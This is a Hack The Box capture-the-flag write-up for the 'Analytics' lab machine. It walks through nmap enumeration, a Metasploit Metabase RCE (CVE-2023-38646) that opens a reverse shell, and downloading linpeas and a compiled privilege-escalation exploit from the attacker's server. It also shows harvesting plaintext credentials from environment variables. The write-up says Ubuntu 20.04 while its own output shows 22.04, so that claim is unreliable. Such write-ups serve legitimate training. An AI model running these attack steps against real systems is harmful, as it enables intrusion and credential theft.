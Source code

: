 ```yaml
---
author: pl4int3xt
layout: post
title: Analytics - HTB Machine
date: '2023-11-07'
useRelativeCover: true
description: "Analytics is an easy linux machine from HTB"
categories: [Hack The Box]
---
```


## Machine Info

> **[Analytics](https://app.hackthebox.com/machines/Analytics)** is an easy linux machine which leverages `Metabse RCE` and `Ubuntu OverLaysFs Local privesc`

## ENUMERATION
We perform a simple scan for top 100 ports

```bash
nmap -sV -sC -top-ports 100 10.10.11.233
```

output

```bash
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.88s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Analytical
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.83 seconds
```

Since we have port 80(HTTP) open we add the ip to our hosts file 

```bash
echo '10.10.11.233 analytical.htb' | sudo tee -a /etc/hosts
```

After opening the browser we click the login button and we are directed to another subdomain. We proceed again and add it to the hosts list

![img-description](1.png)

```bash
echo '10.10.11.233 data.analytical.htb' | sudo tee -a /etc/hosts
```

We get a metabase login page. We google for any available exploits for the service.

![img-description](2.png)

After some google searching i came across this [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)

We proceed to msfconsole since the exploit is available
```bash
msf6 > search metabase

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/metabase_setup_token_rce  2023-07-22       excellent  Yes    Metabase Setup Token RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/metabase_setup_token_rce

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/metabase_setup_token_rce) > 
```

Use show options command to see the options required and set them

```bash
msf6 exploit(linux/http/metabase_setup_token_rce) > set RHOST data.analytical.htb
RHOST => data.analytical.htb
msf6 exploit(linux/http/metabase_setup_token_rce) > set RPORT 80
RPORT => 80
msf6 exploit(linux/http/metabase_setup_token_rce) > set LHOST tun0
LHOST => 10.10.16.54
```
Lets run the exploit and boom "WE ARE IN"

```bash
msf6 exploit(linux/http/metabase_setup_token_rce) > run

[*] Started reverse TCP handler on 10.10.16.54:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (10.10.16.54:4444 -> 10.10.11.233:52878) at 2023-11-07 08:14:43 +0300

id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
whoami
metabase
```

Next we need to get and run linpeas to see if we can get something misconfigured in the system. We start our python server to upload linpeas
```bash
sudo python -m http.server 80
```

```bash
cd /home/metabase
wget http://10.10.16.54/linpeas.sh
```

```bash
bash linpeas.sh
```

After running linpeas.sh we get META_USER and META_PASS in the environment variables

```bash
╔══════════╣ Environment
╚ Any private information inside environment variables?
SHELL=/bin/sh
MB_DB_PASS=
HISTSIZE=0
HOSTNAME=1786d82953d0
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/home/metabase
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
HISTFILE=/dev/null
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=7
MB_DB_USER=
```

We ssh into the machine with the credentials 
```bash
ssh metalytics@10.10.11.233
password: An4lytics_ds20223#
```

```bash
metalytics@analytics:~$ ls
1  m  tmp  u  user.txt  w
```
## PRIVILEGE ESCALATION

We check the os version and find it is Ubuntu 20.04 LTS which has a public [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493?source=post_page-----bd3421cba76d--------------------------------)
```bash
metalytics@analytics:~$ cat /etc/os-release
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

We download the exploit and compile it on our local machine
```bash
gcc exploit.c -o exploit
```

We start our server again and get the exploit
```bash
sudo python -m http.server 80
``` 

```bash
wget http://10.10.16.54/exploit
```

We change the permissions of the file and run it. We are now r00t

```bash
metalytics@analytics:~$ chmod +x exploit
metalytics@analytics:~$ ./exploit
bash-5.1#
```

![img-description](3.png)
